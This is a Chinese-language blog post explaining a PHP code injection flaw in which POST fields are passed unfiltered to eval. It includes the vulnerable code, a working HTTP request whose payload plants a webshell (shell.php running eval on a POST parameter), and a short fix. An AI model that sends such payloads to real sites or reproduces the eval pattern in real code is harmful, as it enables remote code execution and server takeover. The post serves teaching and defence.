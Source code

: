 ```yaml
---
layout: post
title: "PHP代码注入漏洞"
description: "php code injection"
category: web
tags: [websecurity]
published: true
comments: true
date: 2013-05-13 18:05:37 +0800
---
```

{% include JB/setup %}

### 前言

在做测试的过程中，居然还发现了一站点现在还存在PHP代码注入的漏洞，真是很难见到的漏洞。现在说说这个漏洞产生的原因以及利用和修复方法吧。

### 漏洞成因

下面的代码片段引入了PHP代码注入漏洞，

```php
<?
$postarray = array(
"name",
"email",
"message",
);
foreach ($postarray as $val) {
	if (!isset($_POST[$val])) $_POST[$val] = "";
	eval("$".$val." = '".$_POST[$val]."';");
}
?>
```

<!--more-->

代码本意是想通过使用eval来给变量赋值，只是没有对用户提交的内容进行过滤。

### 漏洞利用

利用很简单了，既然可以执行任何php代码，只需在提交时加入恶意代码就可以。下面是一个示例。

```text
POST /test.php HTTP/1.1
Content-Length: 89
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ui7uokv6ac1tdf2bh78fasdc55
Host: www.xxxx.xxx
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
Accept: */*

name=&&email=';fputs(fopen("shell.php","w+"),"<?eval(\$_POST[cmd]);?>");%24a%3d'&message=
```

### 修补建议

**尽量不要使用eval等高危函数，如果要使用，一定要确保函数参数可控**，就本例来说，可以直接赋值。

